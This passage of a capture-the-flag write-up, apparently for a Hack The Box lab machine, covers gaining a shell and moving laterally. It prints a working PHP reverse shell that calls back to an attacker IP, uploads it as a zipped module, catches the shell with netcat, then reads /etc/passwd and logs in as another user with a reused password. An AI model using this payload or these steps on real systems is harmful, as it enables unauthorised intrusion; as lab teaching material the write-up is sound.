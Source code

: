 In order for this to work, we need to create a reverse shell, zip it, and upload it as a module. Then we can access it at `http://greenhorn.htb/data/modules/[ZIP_NAME]/[REVERSE_SHELL].php`

```php
<?php $sock=fsockopen("10.10.16.3",1234);$proc=proc_open("/bin/sh -i",array(0=>$sock, 1=>$sock, 2=>$sock), $pipes); ?>
```

Now we zip the file and upload it.

Start a netcat listener:

```bashsession
┌─[eclectic@parrot]─[~/Downloads]
└──╼ $nc -lvnp 1234
listening on [any] 1234 ...

```

And now visit the reverse shell location at `http://greenhorn.htb/data/modules/payload/rs.php` and:

```bashsession
┌─[eclectic@parrot]─[~/Downloads]
└──╼ $nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.11.25] 47106
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ whoami
www-data
$ 
```

We are in.

## Lateral Movement

Checking `/etc/passwd` shows us that `junior` is a user in the system:

```bashsession
junior:x:1000:1000::/home/junior:/bin/bash
```

Lets try logging in as `junior`:

```bashsession
www-data@greenhorn:/var/mail$ su - junior
su - junior
Password: iloveyou1

junior@greenhorn:~$ cat user.txt
cat user.txt
[USER FLAG]
junior@greenhorn:~$ 

```

